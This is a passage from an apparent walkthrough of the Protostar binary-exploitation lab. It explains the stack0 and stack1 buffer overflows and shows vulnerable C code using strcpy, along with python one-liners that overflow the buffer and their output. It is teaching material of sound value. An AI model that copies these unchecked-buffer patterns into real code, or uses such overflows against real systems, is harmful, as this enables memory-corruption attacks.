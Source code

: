 Given that `0x5c - 0x1c` is 64 bytes, we see that `buffer` and `modified`
are allocated right next to each other on the stack.

We can modify the `modified` variable by writing past the space allocated for
`buffer`. We can do that by passing in a large input via stdin since the `gets`
function does not perform any bounds checking.

```shell
user@protostar:~$ python -c "print 'A' * 65" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

# stack 1

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

This is pretty similar to the previous level except that the data is passed in
via `argv` instead of stdin and we need to write a specific value `0x61626364`
to `modified` instead of any non zero value.

```shell
user@protostar:~$ python -c "print 'A' * 65" | xargs /opt/protostar/bin/stack1
Try again, you got 0x00000041
```

We see that the ASCII value of the character "A" is written to the memory
location reserved for `modified`. We notice that the value is written to the
least significant byte of `modified`. This is because x86 is a
[little-endian][wikipedia-endianness] based system.


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/